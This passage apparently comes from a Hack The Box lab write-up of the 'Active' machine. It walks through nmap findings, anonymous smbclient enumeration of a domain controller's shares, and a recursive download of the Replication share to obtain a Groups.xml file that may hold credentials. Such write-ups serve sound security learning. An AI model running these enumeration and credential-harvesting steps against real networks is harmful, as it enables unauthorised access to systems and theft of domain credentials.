 Nmap reveals an Active Directory installation with a domain of active.htb . Microsoft DNS 6.1 is running,
which allows Nmap to fingerprint the domain controller as Windows Server 2008 R2 SP1. Port 445 is open
and so it is worth running further nmap SMB scripts.
We add the discovered domain to our hosts file.

```
echo "10.10.10.100 active.htb" | sudo tee -a /etc/hosts
```

smbclient can now be used to enumerate any available file shares.

```
smbclient -L //10.10.10.100
Password for [WORKGROUP\htb-c4rm3l0]:
Anonymous login successful
 Sharename Type Comment
 --------- ---- -------
 ADMIN$ Disk Remote Admin
 C$ Disk Default share
 IPC$ IPC Remote IPC
 NETLOGON Disk Logon server share
 Replication Disk
 SYSVOL Disk Logon server share
 Users Disk
SMB1 disabled -- no workgroup available
```

The only share it is possible to access with anonymous credentials is the “Replication” share, which seems to
be a copy of SYSVOL . This is potentially interesting from a privilege escalation perspective as Group Policies
(and Group Policy Preferences) are stored in the SYSVOL share, which is world-readable to authenticated
users.

We connect to the share and download its contents recursively, noticing the Groups.xml file in particular,
which typically contains username/password combinations that can be useful for exploitation.

```
smbclient //10.10.10.100/Replication
Password for [WORKGROUP\htb-c4rm3l0]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> RECURSE ON
smb: \> PROMPT OFF
smb: \> mget *
<...SNIP...>
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml of size 533 as
active.htb/Policies/{31B2F340-016D-11D2-945F00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml (12.4 KiloBytes/sec) (average 15.5
KiloBytes/sec)
<...SNIP...>
```
